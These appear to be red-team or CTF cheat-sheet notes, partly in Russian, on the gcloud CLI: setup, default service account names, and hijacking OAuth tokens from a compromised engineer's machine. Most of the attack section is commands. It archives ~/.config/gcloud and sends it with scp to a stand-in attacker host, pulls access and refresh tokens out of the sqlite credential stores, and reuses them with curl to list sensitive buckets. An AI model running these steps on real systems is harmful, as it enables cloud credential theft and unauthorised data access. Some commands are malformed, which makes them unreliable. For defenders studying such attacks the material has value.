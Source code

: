 # GCP CLI

## Basic

Установка Google Cloud SDK: `brew cask install google-cloud-sdk`

Начинаем: `gcloud init`

Коннект к кластеру\
`gcloud container clusters get-credentials ctfzone --zone europe-west3-a --project civil-partition-256713`

Далее управление через kubectl

## Аккаунты

Формат сервисного аккаунта:

```
{PROJECT_ID}-compute@developer.gserviceaccount.com
```

Для инстансов App Engine, имя аккаунта, по умолчанию:

```
{PROJECT_ID}@appspot.gserviceaccount.com
```

В дополнение, по умолчанию сервисный аккаунт для Computer Engine имеет роль `roles/editor` в GCP проекте.

## OAuth Token Hijacking

links:\
[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)\
[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

Если скомпрометировали тачку инженера

Посмотреть список аутентифицированных акков:

```
$ gcloud auth list

// выставляем нужный акк:
$ gcloud config set account admin@example.com
```

```
$ gcloud projects list
PROJECT_ID        NAME         PROJECT_NUMBER
project-prod-111  project-prod 6464828674
$ gsutil ls -p project-prod-111
gs://sensitive-bucket/
$ gsutil ls gs://sensitive-bucket/
gs://sensitive-bucket/some_folders/
gs://sensitive-bucket/passwords/
...
```

The actual cached credentials are OAuth access and refresh tokens generated during the initial authentication (gcloud auth login). On Linux/macos, [they are stored in](https://www.jhanley.com/google-cloud-where-are-my-credentials-stored/) \~/.config/gcloud, while on Windows they are stored in C:\Users\\\<username>\AppData\Roaming\gcloud.

```
$ ls -al ~/.config/gcloud
...
$ cd ~/.config
$ tar zcf gloud.tgz gcloud
$ scp gcloud.tgz user@my-attack--host-1234.com
```

### Token hijacking for API Calls

```
$ sqlite3 ~/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id = 'admin@example.com';"
ya29.sndkjbdhv.....
$ sqlite3 ~/.config/gcloud/credentials.db "select value from credentials where account_id = 'admin@example.com';"
{
    ...,
    "client_id": "1111.apps.googleusercontent.com",
    ...
}
$ data --date=='@15466...'
```

Использовать токен через RestAPI:

```
curl -s --data client_id=1111.apps.googleusercontent.com --data client_secret=... --data grant_type=refresh_token --data refresh_token=...
--data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth https://www.googleapis.com/oauth2/v4/token"

curl -s -H "Authorization: Bearer ..." https://storage.googleapis.com/storage/v1/b/sensitive-bucket/o
```
